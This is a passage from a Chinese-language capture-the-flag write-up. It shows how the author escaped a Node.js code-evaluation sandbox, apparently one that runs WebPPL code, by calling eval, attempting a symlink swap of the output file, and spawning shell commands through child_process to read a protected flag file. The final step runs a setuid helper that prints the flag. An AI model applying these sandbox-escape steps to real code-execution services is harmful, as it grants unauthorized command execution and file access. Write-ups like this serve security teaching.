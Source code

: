 ```JavaScript
map(function(x) { window.eval(x); }, ["document.title = FLAG1"]);
```

还是不行，当时不知道是为什么。

二阶段提示出来之后决定先做 flag2。

```JavaScript
map(function(x) {
    global.eval(x);
    return 0;
}, ['import("fs").then( fs => console.log(fs.readFileSync("/flag2")) );']);
```

```plaintext
Error: EACCES: permission denied, open '/flag2'
```

好，起码能用 `eval` 了。在后端 `window` 要改成 `global`。

尝试把输出文件换成软链接，让评测程序帮我们读取。

```JavaScript
import("fs").then(fs => {fs.unlinkSync("/tmp/output.txt"); fs.symlinkSync("/flag2", "/tmp/output.txt")});
```

```plaintext
Error: EPERM: operation not permitted, unlink '/tmp/output.txt'
```

换成 `cat`。

```JavaScript
import("child_process").then(m => {m.execSync("cat /flag2")});
```

```plaintext
cat: /flag2: Permission denied
```

还是没权限，直接当 shell 用了。

```shell
chmod 777 /flag2
# chmod: changing permissions of '/flag2': Operation not permitted
id >&2
# uid=1000(sandbox) gid=1000(sandbox) groups=1000(sandbox)
ls -l /flag2 >&2
# -rw------- 1 root root 43 Oct 17 07:54 /flag2
ls -l /tmp/output.txt >&2
# -rw-r--r-- 1 root root 6 Oct 17 07:56 /tmp/output.txt
ls -l /tmp >&2
# total 24
# -rw-r--r-- 1 root root   128 Oct 17 07:57 code.wppl
# -rw-r--r-- 1 root root     6 Oct 17 07:57 output.txt
# -rwsr-xr-x 1 root root 16048 Oct 17 07:57 read_flag_2
/tmp/read_flag_2 >&2
# flag{tricky-TO-SPAwn-suBpROcESS-IN-NoDeJs}
```
